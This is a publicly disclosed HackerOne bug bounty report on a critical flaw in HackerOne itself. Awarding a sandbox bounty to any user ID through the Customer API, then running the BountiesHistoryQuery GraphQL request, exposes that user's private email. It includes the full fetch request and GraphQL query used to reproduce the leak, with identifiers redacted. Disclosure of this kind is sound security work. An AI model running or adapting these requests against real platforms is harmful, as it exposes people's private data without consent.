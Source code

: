 # Creation of bounties through Customer API leads to private email disclosure

## Report Details
- **Report ID**: 2382120
- **URL**: https://hackerone.com/reports/2382120
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-02-20T16:22:43.419Z
- **Disclosed**: 2024-03-26T13:10:59.472Z

## Reporter
- **Username**: kimingi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hello team,
It is possible to reveal any user email using the `BountiesHistoryQuery` request.
To demonstrate this, I will make use of both the API and the graphql requests.

### Steps To Reproduce

1. Log in to your account and create a demo
2. Head over to https://hackerone.com/organizations/████/settings/api_tokens and create a token with the report manager role
3. Head over to any profile of a user in hackerone and copy their user id
4. Use this request below to award a program bounty to that user using the API. `recipient_id` is the id of any user and `{id}` is your sandbox program id.
```
let inputBody = "{\n  \"data\": {\n    \"type\": \"bounty\",\n    \"attributes\": {\n      \"recipient_id\": \"██████████\",\n          \"amount\": 51,\n      \"reference\": \"newbounty\",\n      \"title\": \"BOUNTY FROM Sandbox\",\n      \"currency\": \"USD\",\n      \"severity_rating\": \"high\"\n    }\n  }\n}";
let user = 'identifier';
let password = 'token';
let headers = new Headers();
headers.set('Authorization', 'Basic ' + btoa(user + ":" + password));
  headers.set('Content-Type', 'application/json');  headers.set('Accept', 'application/json');

fetch('https://api.hackerone.com/v1/programs/{id}/bounties',
{
  method: 'POST',
  body: inputBody,
  headers: headers
})
.then(function(res) {
    return res.json();
}).then(function(body) {
    console.log(body);
});

```
5. You will get a success message

██████
6. After awarding the bounty, make the following Graphql request. Where `handle` is the handle of your sandbox team
```
{"operationName":"BountiesHistoryQuery","variables":{"handle":"████","pageSize":25,"product_area":"other","product_feature":"other"},"query":"query BountiesHistoryQuery($handle: String!, $pageSize: Int!, $cursor: String) {\n  team(handle: $handle) {\n    id\n    currency\n    offers_bounties\n    state\n    bounties(first: $pageSize, after: $cursor) {\n   pageInfo {\n        endCursor\n        hasNextPage\n        __typename\n      }\n         edges {\n          node {\n          id\n    awarded_user{username} invitations{email token}     awarded_amount\n          awarded_bonus_amount\n          created_at\n          report {\n            id\n            database_id: _id\n            reporter {\n     email          id\n              username\n              __typename\n            }\n            title\n            __typename\n          }\n          total_awarded_amount\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
7. Notice the email of the user is shown in the response

█████████

## Impact

Reveal any user email

## Attachments
No attachments

